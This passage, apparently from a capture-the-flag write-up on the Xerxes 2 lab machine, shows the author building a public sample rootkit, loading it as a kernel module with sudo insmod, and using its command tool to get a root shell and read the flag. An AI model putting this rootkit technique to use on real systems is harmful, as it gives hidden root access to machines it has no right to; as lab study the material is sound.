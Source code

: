 The first thing that came to my mind was to load up a rootkit. Since I don't deal much with rootkits, I had to Google around for a simple one and eventually settled on a sample rootkit over at [https://github.com/ivyl/rootkit](https://github.com/ivyl/rootkit). 

unzip didn't seem to be available on Xerxes 2, so I unpacked the rootkit on my machine and transferred the contents to korenchkin's home directory. From there, building it was a matter of running make:

```
korenchkin@xerxes2:~/rootkit-master$ make
make -C /lib/modules/3.2.0-4-686-pae/build M=/home/korenchkin/rootkit-master modules
make[1]: Entering directory `/usr/src/linux-headers-3.2.0-4-686-pae'
  CC [M]  /home/korenchkin/rootkit-master/rt.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/korenchkin/rootkit-master/rt.mod.o
  LD [M]  /home/korenchkin/rootkit-master/rt.ko
make[1]: Leaving directory `/usr/src/linux-headers-3.2.0-4-686-pae'
```

This created the rt.ko module which I loaded into the system using sudo:

```
korenchkin@xerxes2:~/rootkit-master$ sudo insmod rt.ko
```

Finally, to get the root shell I issued the following command to the rootkit:

```
korenchkin@xerxes2:~/rootkit-master$ tools/rtcmd.py mypenislong /bin/bash
root@xerxes2:~/rootkit-master# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(korenchkin)
root@xerxes2:~/rootkit-master# 
```

After three days of on and off hacking away at it, I was finally able to read /root/flag.txt

```
root@xerxes2:~/rootkit-master# cat /root/flag.txt 
____   ___  ____  ___  __ ____   ___  ____     ____     ____   
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb  
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb 
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM 
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM' 
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'    
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'      
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 

	congratulations on beating xerxes2!

	I hope you enjoyed it as much as I did making xerxes2. 
	xerxes1 has been described as 'weird' and 'left-field'
	and I hope that this one fits that description too :)

	Many thanks to @TheColonial & @rasta_mouse for testing!

	Ping me on #vulnhub for thoughts and comments!

					  @barrebas, July 2014
```
